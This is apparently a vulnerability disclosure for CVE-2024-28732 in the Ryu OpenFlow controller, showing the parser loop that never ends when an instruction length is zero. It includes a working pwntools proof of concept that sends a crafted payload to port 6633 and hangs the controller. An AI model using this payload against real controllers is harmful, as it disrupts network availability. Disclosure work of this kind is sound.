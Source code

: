 # CVE-2024-28732

in /ryu/ofproto/ofproto_v1_3_parser.py about line=1050

```python
class OFPFlowMod(MsgBase):
....
        while offset < msg_len:
            i = OFPInstruction.parser(buf, offset)
            instructions.append(i)
            offset += i.len
        msg.instructions = instructions
```
If OFPInstruction.len=0 , the offset will no longer change and the parsing will fall into an infinite loop.

## recurrent

Execute the controller through the following command:
```
ryu-manager
```


poc:
```python
from pwn import *
p=remote("0.0.0.0",6633)
payload=b"\x04\x0e\x00\x50\xd8\xbc\xde\xb7\x67\xf9\x0c\x3f\xfb\xa6\xdb\x87\x6f\x63\x34\xd0\xe1\x26\x43\x78\x5e\x01\x34\x0d\x32\xb4\xb3\xff\x8f\x99\xc0\xe9\x9e\x84\x70\x62\xc7\x4a\xbf\x01\xf3\xf0\x00\x00\x00\x01\x00\x04\x00\x00\x00\x00\x00\x00\x00\x18\x00\x00\x00\x00\x00\x00\x00\x10\xff\xff\xff\xfd\xff\xff\x00\x00\x00\x00\x00\x00"
p.send(payload)
p.interactive()
```

Executing the POC will cause the controller to fall into an infinite loop and no longer work.

This problem also occurs with the following code:

/ryu/ofproto/ofproto_v1_3_parser.py about line=1050

/ryu/ofproto/ofproto_v1_4_parser.py about line=4453

/ryu/ofproto/ofproto_v1_3_parser.py about line=5321

They will affect OpenFlow1.3, OpenFlow1.4, OpenFlow1.5.
